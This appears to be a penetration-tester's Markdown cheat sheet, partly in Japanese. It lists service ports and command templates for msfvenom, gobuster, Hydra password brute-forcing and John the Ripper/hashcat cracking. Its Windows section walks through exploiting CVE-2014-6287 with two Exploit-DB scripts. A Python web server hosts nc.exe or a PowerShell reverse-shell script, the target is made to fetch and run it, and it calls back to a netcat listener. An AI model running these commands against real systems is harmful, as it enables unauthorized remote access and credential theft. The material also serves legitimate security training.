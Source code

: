 # CheatSheet

## Ports
- 20, 21 / FTP
- 22 / SSH
- 23 / Telnet
- 25 / SMTP
- 53 / DNS
- 80 / HTTP
- 110 / POP3
- 443 / HTTPS
- 139, 445 / SMB
- NFS / 2049
- MySQL / 3306

## Tools
### [Nmap](nmap.md)


### MSFVenom
```
msfvenom -p [PAYLOAD] lhost=[LOCAL IP] lport=[LOCAL PORT] R
```

- -p : payload
- lhost : our local host IP address (this is your machine's IP address)
- lport : the port to listen on (this is the port on your machine)
- R : export the payload in raw format


### [Gobuster](https://github.com/OJ/gobuster)
```
gobuster dir -u [URL] -w [WORDLIST PATH] -t [NUM OF THREADS] -x [EXTENSIONS] -q
```

- -u : The target URL
- -w : Path to the wordlist
- -t : Number of concurrent threads (default 10)
- -x : File extension(s) to search for
- -q : Don't print the banner and other noise


### Hydra
Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more.   
```
hydra -t [NUM OF CONNS] -l [USER] -P [WORDLIST] -vV [IP] [PROTOCOL]
```

- -t : Number of parallel connections per target
- -l : Username
- -P : Wordlist path
- -vV : Sets verbose mode to very verbose, shows the login+pass combination for each attempt


### John the Ripper
```
john --format=[FORMAT] --wordlist=[WORDLIST PATH] [HASH FILE PATH]
```

#### Search format
```
john --list=formats | grep -iF [FORMAT]
```

#### ssh2john (*1)
```
python /usr/share/john/ssh2john.py [KEY FILE PATH] > passphrase.txt
```

#### zip2john
```
zip2john [KEY FILE PATH] > password.txt
```

### [Hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes)
```
hashcat -m [HASH TYPE] -a [ATTACK MODE] [HASHFILE PATH] [WORDLIST PATH]
```

#### Hashid
```
hashid -m [HASH]
```


## Exploit by protocol
- [SSH](ssh.md)
- [SMB](smb.md)
- [Telnet](telnet.md)
- [NFS](nfs.md)
- [FTP](ftp.md)
- [SMTP](smtp.md)
- [MySQL](mysql.md)

## Windows

### CVE : 2014-6287 ([39161](https://www.exploit-db.com/exploits/39161))
You can execute arbitrary commands on the remote Windows host.

Download the python script to kali
```
wget https://www.exploit-db.com/raw/39161 -O /tmp/39161.py
```

Download netcat binary file.  
39161.pyではあらかじめローカルIP、ポートを指定する必要あり。指定したアドレスから、netcatの実行可能ファイルをnc.exeという名前でダウンロードする仕様。そして、ダウンロードしたnc.exeを実行し、そのローカルIP、ポートにコネクトバックする（リバースシェル）
```
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe -O ~/Downloads/steel/nc.exe
```

Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

The following command needs to be executed TWICE.
Download nc.exe first, and connects back to the listner on Kali second time. 
```
python 39161.py $rhost [RPORT]
```

### CVE : 2014-6287 ([49125](https://www.exploit-db.com/exploits/49125))
You can execute arbitrary commands on the remote Windows host.

Download the python script to kali
```
wget https://www.exploit-db.com/raw/49125 -O /tmp/49125.py
```

Download the powershell script to kali.
Local IP and port in the script needs to be changed.
```
wget https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1 -O ~/Downloads/steel/mini-reverse.ps1
```

Start python web server in kali
```
cd ~/Downloads/steel/
python3 -m http.server 80
```

Start netcat listener
```
rlwrap nc -lvnp ${lport}
```

Execute the script. Execute the commands passed as the third argument.
```
cd /tmp
python3 49125.py $rhost [RPORT] "C:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -c wget 'http://${lhost}/mini-reverse.ps1' -outfile 'C:\Users\Bill\Desktop\mini-reverse.ps1'; C:\Users\Bill\Desktop\mini-reverse.ps1" 
```

## Memo
*1 python3で実行した場合、エラーが発生する。

## Reference

Exploit DB  
https://www.exploit-db.com/

MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

GTFOBins  
https://gtfobins.github.io/

Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/
